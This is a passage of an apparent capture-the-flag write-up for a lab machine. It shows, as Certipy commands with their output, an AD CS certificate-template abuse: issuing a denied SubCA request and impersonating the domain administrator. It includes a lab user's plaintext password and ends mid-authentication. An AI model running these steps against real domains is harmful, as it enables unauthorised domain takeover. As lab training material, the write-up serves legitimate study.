 The above two steps `Adding Manage Certificate Permission to Raven` and `Enabling SubCA` Templates are the two prerequisites of this attack.

###### `Requesting Certificate For Domain Admin using SubCA Template`
```
This will going to fail but we need the Fail Request ID. Look at the following Command.

# certipy req -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 19
Would you like to save the private key? (y/N) y
[*] Saved private key to 19.key
[-] Failed to request certificate
```

###### `With Manage Certificate Permission We can issue any fail certificate with the Request ID`
```
# certipy ca -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -issue-request 19
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

###### `Retrieve the issue certificate using Request ID`
```
# certipy req -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -retrieve 19
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 19
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '19.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

###### `Auth using administrator.pfx`
```
# certipy auth -pfx administrator.pfx 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

# ntpdate dc01.manager.htb
2024-09-10 00:31:55.711465 (-0400) +348.842533 +/- 0.013865 dc01.manager.htb 10.10.11.236 s1 no-leap
CLOCK: time stepped by 348.842533

# certipy auth -pfx administrator.pfx 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
```